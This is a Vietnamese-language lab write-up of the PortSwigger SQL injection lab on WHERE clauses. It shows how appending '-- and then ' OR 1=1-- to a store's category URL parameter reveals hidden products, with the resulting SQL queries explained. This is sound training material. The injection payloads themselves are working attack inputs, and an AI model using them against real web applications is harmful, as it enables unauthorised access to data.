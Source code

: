 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
### Link:https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data
![Require of Lab](/Images/requireOfLab.png)

Yêu cầu của bài lab là hiển thị tất cả các sản phẩm của bất kỳ category, kể cả đã sản phẩm được hiện thị và không được hiển thị.
Truy cập vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như `Accessories` ,`Clothing, shoes and accessories`, `Corporate gifts` và `Lifestyle`.

![Website](/Images/Website.png)

Lựa chọn mục `Lifestyle` và thấy thanh địa chỉ hiện URL như sau:
> https://acba1f291e3a4993c0bd46c60095006e.web-security-academy.net/filter?category=Lifestyle

Đổi thành SQL như sau: 
> SELECT * FROM category WHERE category = 'Lifestyle' AND released = 1 

Nghĩa là ta sẽ lấy hết những sản phẩm thuộc danh mục là Lifestyle và được hiển thị.

![Product of Lifeslyte](/Images/productOfLifestyle.png)

Ta có thể chỉnh sửa URL thành như sau:
> https://acba1f291e3a4993c0bd46c60095006e.web-security-academy.net/filter?category=Lifestyle'—  

Đổi thành câu truy vấn như sau: 
> SELECT * FROM category WHERE category = 'Lifestyle'--' AND released = 1

Ở trong SQL dấu -- có nghĩa là comment, do đó khi ta thêm dấu -- thì toàn bộ phần phía sau là AND released = 1 trở thành comment. 
Câu truy vấn trở thành: 
> SELECT * FROM category WHERE category = 'Lifestyle'

Nghĩa là lấy tất cả sản phẩm của danh mục Lifestyle.
Và kiểm tra kết quả hiển thị

![All product of Lifeslyte](/Images/allProductOfLifestyle.png)

Ta có thể thấy, phần sản phẩm đã xuất hiện thêm 1 sản phẩm mới là 'Balance Beams'
Tiếp theo, để hiển thị tất cả sản phẩm của bất kỳ danh mục có trong website ta thay đổi URL như sau:
> https://acbd1f821e134f99c0144063006500b4.web-security-academy.net/filter?category=Lifestyle'+OR+1=1--

Đổi thành câu truy vấn như sau:
> SELECT * FROM category WHERE category = 'Lifestyle' OR 1=1--' AND released = 1

Câu truy vấn này sẽ trả về tất cả sản phẩm của danh mục Lifestyle hoặc khi 1 bằng 1. Mà 1 luôn luôn bằng với 1 do đó nó sẽ trả về toàn bộ sản phẩm có trong database.

![All product](/Images/allProduct.png)

Qua phép thử trên, ta thấy có thể chỉnh sửa URL để hiển thị các sản phẩm trong bất kỳ danh mục nào.

